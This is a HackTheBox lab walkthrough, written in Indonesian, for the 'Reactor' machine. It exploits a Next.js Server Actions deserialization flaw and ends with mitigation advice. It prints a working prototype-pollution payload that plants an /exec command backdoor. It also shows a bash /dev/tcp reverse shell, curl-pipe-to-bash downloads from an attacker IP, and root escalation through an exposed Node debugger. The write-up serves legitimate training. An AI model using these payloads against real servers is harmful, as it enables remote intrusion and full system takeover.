# Reactor — HackTheBox Write-Up

> **Difficulty:** Easy
> **OS:** Linux
> **IP:** `10.129.169.163`
> **Domain:** `reactor.htb`
> **Open Ports:** 22 (SSH), 3000 (Next.js Web App)
> **CVE Exploited:** CVE-2025-66478 (Next.js RSC Remote Code Execution)

---

## Table of Contents

1. [Persiapan](#persiapan)
2. [Enumerasi](#enumerasi)
3. [Eksploitasi — Remote Code Execution](#eksploitasi--remote-code-execution)
4. [Enumerasi Pasca Shell](#enumerasi-pasca-shell)
5. [Privilege Escalation](#privilege-escalation)
6. [Flags](#flags)

---

## Persiapan

Sebelum memulai, pastikan mesin Reactor sudah aktif di panel HackTheBox dan koneksi VPN telah berhasil dibuat.

**1. Aktifkan mesin Reactor dari panel HackTheBox.**



**2. Hubungkan VPN HackTheBox.**

```bash
sudo openvpn ~/Downloads/OpenVPN/release_arena.ovpn
```



Pastikan antarmuka `tun0` sudah mendapatkan IP sebelum melanjutkan.

---

## Enumerasi

### Port Scanning dengan Nmap

Langkah pertama adalah melakukan port scan menyeluruh untuk mengetahui layanan apa saja yang berjalan pada target.

```bash
nmap -sS -sC -sV -O --min-rate 500 -T4 10.129.169.163 -p-
```



Hasil scan menunjukkan dua port terbuka:

| Port | Protokol | Layanan |
|------|----------|---------|
| 22   | TCP      | SSH (OpenSSH) |
| 3000 | TCP      | Web Application (Next.js) |

Port 3000 menarik perhatian karena menjalankan sebuah aplikasi web. Ini akan menjadi target utama kita.

---

### Menambahkan Domain ke `/etc/hosts`

Untuk memudahkan akses dan memastikan routing yang benar, tambahkan domain custom ke file hosts lokal:

```bash
echo "10.129.169.163 reactor.htb" | sudo tee -a /etc/hosts
```



Sekarang kita bisa mengakses aplikasi melalui `http://reactor.htb:3000`.

---

### Enumerasi Web dengan Burp Suite

Dengan Burp Suite sebagai proxy, kita menelusuri aplikasi web di `http://reactor.htb:3000`. Arsitektur yang teridentifikasi adalah:

- **Next.js 15.0.3** — framework React berbasis Node.js
- **React** — library UI frontend

Selama analisis request dan response menggunakan Burp Suite, ditemukan indikasi bahwa aplikasi menggunakan fitur **React Server Components (RSC)** dari Next.js versi 15.0.3.


Dengan response yang didapat dari enumerasi, dan menunjukkan penggunaan RSC.





Berdasarkan versi Next.js dan pola request RSC, terdapat indikasi mengarah pada kemungkinan kerentanan **CVE-2025-66478**, sebuah celah Remote Code Execution (RCE) pada mekanisme Server Actions Next.js.



---

## Eksploitasi — Remote Code Execution

### Riset CVE-2025-66478

CVE-2025-66478 adalah kerentanan deserialisasi pada fitur React Server Components (RSC) / Server Actions milik Next.js. Kerentanan ini memungkinkan penyerang untuk mengirim payload berbahaya melalui request multipart yang memanipulasi prototype chain JavaScript (`__proto__`), sehingga memicu eksekusi kode arbitrer di sisi server.

Proof of Concept (PoC) yang digunakan dapat ditemukan di:

> [https://github.com/Malayke/Next.js-RSC-RCE-Scanner-CVE-2025-66478](https://github.com/Malayke/Next.js-RSC-RCE-Scanner-CVE-2025-66478)

(Shutout untuk Malayke)

---

### Membuat Backdoor Berbasis HTTP

Exploit berikut menyuntikkan kode ke dalam proses Node.js yang sedang berjalan. Kode tersebut mem-*patch* fungsi `http.Server.prototype.emit` secara in-memory sehingga setiap request ke endpoint `/exec?cmd=<perintah>` akan dieksekusi sebagai perintah sistem.

**Request Exploit:**\
(Kirim request menggunakan burpsuite repeater)
```http
POST / HTTP/1.1
Host: reactor.htb:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36 Assetnote/1.0.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive
Next-Action: x
X-Nextjs-Request-Id: b5dce965
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
X-Nextjs-Html-Request-Id: SSTMXm7OJ_g0Ncx6jpQt9
Content-Length: 1176

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"

{
  "then": "$1:__proto__:then",
  "status": "resolved_model",
  "reason": -1,
  "value": "{\"then\":\"$B1337\"}",
  "_response": {
    "_prefix": "(async()=>{const http=await import('node:http');const url=await import('node:url');const cp=await import('node:child_process');const o=http.Server.prototype.emit;http.Server.prototype.emit=function(e,...a){if(e==='request'){const[r,s]=a;const p=url.parse(r.url,true);if(p.pathname==='/exec'){const cmd=p.query.cmd;if(!cmd){s.writeHead(400);s.end('cmd parameter required');return true;}try{s.writeHead(200,{'Content-Type':'application/json'});s.end(cp.execSync(cmd,{encoding:'utf8',stdio:'pipe'}));}catch(e){s.writeHead(500);s.end('Error: '+e.message);}return true;}}return o.apply(this,arguments);};})();",
    "_chunks": "$Q2",
    "_formData": {
      "get": "$1:constructor:constructor"
    }
  }
}

------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"

"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="2"

[]
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```

Setelah request berhasil dikirim, kita dapat menguji RCE dengan:

```
curl -s http://reactor.htb:3000/exec?cmd=id
```

Jika berhasil, server akan mengembalikan output perintah `id`, mengonfirmasi bahwa kode kita berjalan di konteks proses Node.js.



---

### Mendapatkan Reverse Shell

Pertama-tama siapkan payload reverse shell:

`bash -i >& /dev/tcp/10.10.14.76/4444 0>&1 > shell.sh`

Lalu siapkan http server menggunakan python:

`python3 -m http.server 80`



Dengan backdoor `/exec` sudah aktif, langkah selanjutnya adalah mendapatkan shell interaktif. Siapkan listener Netcat di mesin attacker:

```bash
nc -lvnp 4444
```



Kemudian kirim payload reverse shell melalui endpoint `/exec`:

```
curl -s "http://reactor.htb:3000/exec?cmd=curl+http://10.10.14.76/shell.sh|bash"
```



Kita kini memiliki shell sebagai user yang menjalankan proses Node.js, yaitu `node`.

---

## Enumerasi Pasca Shell

### Penemuan User `engineer`

Setelah mendapatkan shell, enumerasi direktori home mengungkap keberadaan user `engineer`:

```bash
ls /home
# → engineer
```



### Enumerasi dengan LinPEAS

Upload dan jalankan **LinPEAS** untuk mencari vektor privilege escalation:

```bash
# Di attacker
linpeas
python3 -m http.server 80

# Di target
curl http://10.10.14.76/linpeas.sh | bash
```

LinPEAS menemukan dua temuan penting:

**1. Flag `--inspect` pada proses Node.js**

Proses Node.js dijalankan dengan flag `--inspect` atau `--inspect-brk` yang dijalankan oleh `root`, yang berarti debugger Node.js aktif dan mendengarkan pada port `9229` (localhost). Ini membuka peluang untuk mengeksekusi kode arbitrary sebagai user yang menjalankan proses tersebut, yaitu `root`.



**2. Kemungkinan Port Forwarding**

LinPEAS juga mengidentifikasi kondisi yang memungkinkan kita melakukan port forwarding dari port `9229` (debugger Node.js) ke mesin attacker.



---

## Privilege Escalation

### Langkah 1 — Port Forwarding dengan `mkfifo` dan Netcat

Karena debugger Node.js hanya mendengarkan di `localhost:9229` pada target, kita perlu mem-forward port tersebut agar dapat diakses dari mesin attacker:

```bash
mkfifo mypipe
while true; do
  nc -l -p 9999 0<mypipe | nc 127.0.0.1 9229 1>mypipe
done
```

Perintah ini membuat `localhost:9999` di target menjadi proxy yang meneruskan semua traffic ke debugger Node.js di `localhost:9229`. Selanjutnya, dari mesin attacker, forward port `9229`.

---

### Langkah 2 — Tunneling dan koneksi ke Debugger Node.js via Browser

Buka browser berbasis Chromium (misalnya Brave atau Chrome) dan navigasikan ke:

```
brave://inspect
```

atau

```
chrome://inspect
```



Klik **"Configure"** lalu tambahkan target remote berupa IP target dan nomor port yang yang digunakan oleh `netcat` untuk mendengar tadi secara manual: `10.129.169.163:9999`. Browser akan mendeteksi sesi Node.js yang sedang berjalan dan menampilkan opsi **"inspect"**.



Klik **"Open dedicated DevTool for node"** untuk membuka DevTools. Kini kita memiliki akses penuh ke konsol JavaScript yang berjalan dalam konteks proses Node.js yang di-debug dan berjalan sebagai `root`.

---

### Langkah 3 — Membaca Flag

Di konsol DevTools (tab **Console**), jalankan perintah berikut untuk membaca flag:

**Root flag:**

```javascript
require('fs').readFileSync('/root/root.txt', 'utf8');
```

**User flag:**

```javascript
require('fs').readFileSync('/home/engineer/user.txt', 'utf8');
```



---

## Flags

| Flag | Path | Status |
|------|------|--------|
| User | `/home/engineer/user.txt` | ✅ Captured |
| Root | `/root/root.txt` | ✅ Captured |

---

## Ringkasan Serangan

```
[Nmap Scan]
    └─► Port 3000 (Next.js)
            └─► Burp Suite Enum → CVE-2025-66478 (RSC RCE)
                    └─► HTTP Backdoor via Prototype Pollution
                            └─► Reverse Shell (user: low-priv / engineer)
                                    └─► LinPEAS → Node.js --inspect flag on port 9229
                                            └─► Port Forward (mkfifo + nc)
                                                    └─► Chrome DevTools (brave://inspect)
                                                            └─► fs.readFileSync → ROOT 
```

---

## Mitigasi

- **Perbarui Next.js** ke versi yang telah mem-patch CVE-2025-66478. Jangan gunakan versi yang rentan di lingkungan produksi.
- **Jangan jalankan Node.js dengan flag `--inspect` di produksi.** Flag ini membuka debugger yang dapat dieksploitasi jika terjadi compromise pada proses.
- **Batasi akses ke port debugging** menggunakan firewall; pastikan port 9229 tidak dapat diakses kecuali dari interface yang diperlukan.
- **Terapkan prinsip least privilege** — jalankan proses aplikasi web dengan user yang memiliki hak minimum, bukan `root`.

